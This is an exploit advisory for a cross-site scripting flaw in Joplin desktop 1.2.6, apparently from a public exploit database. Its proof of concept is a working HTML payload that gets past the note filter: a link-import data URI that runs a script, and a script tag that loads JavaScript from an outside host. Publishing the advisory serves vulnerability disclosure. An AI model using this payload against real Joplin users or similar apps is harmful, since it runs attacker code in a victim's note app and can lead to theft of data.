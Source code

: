 

 Exploit Title: Joplin 1.2.6 Cross Site Scripting <br>
 Date: 2020-10-27 <br>
 Exploit Author: Philip Holbrook (@fhlipZero) <br>
 Vendor Homepage: https://joplinapp.org/ <br>
 Software Link: https://github.com/laurent22/joplin/releases/tag/v1.2.6  <br>
 Version: 1.2.6  <br>
 Tested on: Windows / Mac  <br>
 CVE : PENDING  <br>
 References:  <br>
 PENDING next release <br>

 1. Technical Details
 An XSS issue in Joplin for desktop v1.2.6 allows a link tag in a note to bypass the HTML filter

 2. PoC
 Paste the following payload into a note:

<link rel=import href="data:text/html&comma;&lt;script&gt;alert(XSS)&lt;&sol;script&gt; 
<script src="//brlogic.com.br&sol;1.js&num; </script>


![Screen Shot 2020-10-27 at 4.42.34 PM.png = 200x](./60b6772ab455487b92268ad45a6dd677.png)

![Screen Shot 2020-10-27 at 4.42.51 PM.png = 150](./7f76fb066b9d4e3bad4c4b59538140e4.png)

